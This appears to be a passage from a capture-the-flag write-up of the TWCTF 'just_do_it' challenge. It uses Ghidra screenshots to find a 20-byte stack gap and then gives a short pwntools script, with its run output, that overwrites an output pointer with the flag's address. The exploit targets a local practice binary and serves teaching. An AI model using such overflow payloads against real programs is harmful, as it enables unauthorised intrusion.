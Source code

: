 <img width="861" height="383" alt="Screenshot From 2025-09-21 18-47-02" src="https://github.com/user-attachments/assets/93770d77-0bcc-441c-a849-f7627bf12424" />

Here we can see `final_output` is stored at `start_address_of_stack-0x14` and the `input_buffer` is at `start_address_of_stack-0x28` and the gap between both is 20 bytes so to replace the address stored in `final_output` with the address of the flag we need to inject 20 null bytes following the address. 

To know the address of the `flag` - Program Tree -> Lables -> flag 


<img width="1099" height="437" alt="Screenshot From 2025-09-21 18-59-42" src="https://github.com/user-attachments/assets/abb3511b-33f9-4b9b-aa45-124f1092ff32" />

The address is `0x804a080`.

### Exploit

Writing exploit with all the collected information is so straight forward -

```python
#!/bin/python3

from pwn import *

p = process("./just_do_it")


p.sendlineafter("Input the password.",b'\x00'*20+p32(0x804a080))

print(p.recvall().decode())
```

Running the script -

```
kris3c@0x4B1T-ubuntu:~/Main/Nightmare/modules/04-bof_variable/tw17_justdoit$ ./my_script.py 
[+] Starting local process './just_do_it': pid 7094
/usr/lib/python3/dist-packages/pwnlib/tubes/tube.py:876: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[+] Receiving all data: Done (34B)
[*] Process './just_do_it' stopped with exit code 0 (pid 7094)

TWCTF{REDACTED}
```

We got the flag and this marks the end of this writeup.

### Conclusion

By analyzing the binary with Ghidra and exploiting the stack layout, we bypassed the password check and redirected output to leak the flag. The challenge was a solid exercise in buffer overflows and reinforced the importance of understanding how memory is managed on the stack
